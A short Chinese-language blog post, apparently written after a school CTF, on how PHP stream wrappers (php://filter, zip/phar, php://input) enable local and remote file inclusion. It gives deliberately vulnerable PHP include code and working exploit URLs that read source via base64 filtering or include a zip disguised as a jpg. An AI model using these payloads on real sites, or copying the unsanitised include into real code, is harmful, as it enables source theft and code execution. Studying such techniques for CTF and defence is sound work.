 ```yaml
---
layout:     post
title:      浅谈php伪协议
subtitle:   
date:       2016-11-20
author:     sp4rk
header-img: 
catalog: true
tags:
    - php
---
```


这次校赛，学长出的一道tomcat提权的题目，需要用伪协议去读文件和getshell，所以记录下常见的几种伪协议及其安全问题。

### 0x01 php://filter
php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，这里可造成LFI
```php
<?php   //test.php
phpinfo();
?>
<?php   //1.php
include($_GET['a']);
?>
```
![](/img/r.png)
```
http://127.0.0.1/1.php?a=php://filter/read=convert.base64-encode/resource=index.php
```
base64 decode一下就是test.php的源码
allow_url_include:on 可以造成RFI
### 0x02 zip和phar协议


<!--more-->


zip(phar)协议造成的文件包含，将test.php压缩为test.zip，再zip改名为jpg格式
```
http://127.0.0.1/1.php?a=zip:///var/www/html/test.jpg%23test.php
```
成功包含
![](/img/p.png)

### 0x03 php://input
php://input可以访问请求的原始数据的只读流,可以接收POST请求的数据，造成文件包含
```php
<?php
$user=$_GET['user'];
if(file_get_contents($_GET['a'],'r')==='test'){
	echo phpinfo();
}
else{
	echo "test failed!";
}
?>
```
![](/img/q.png)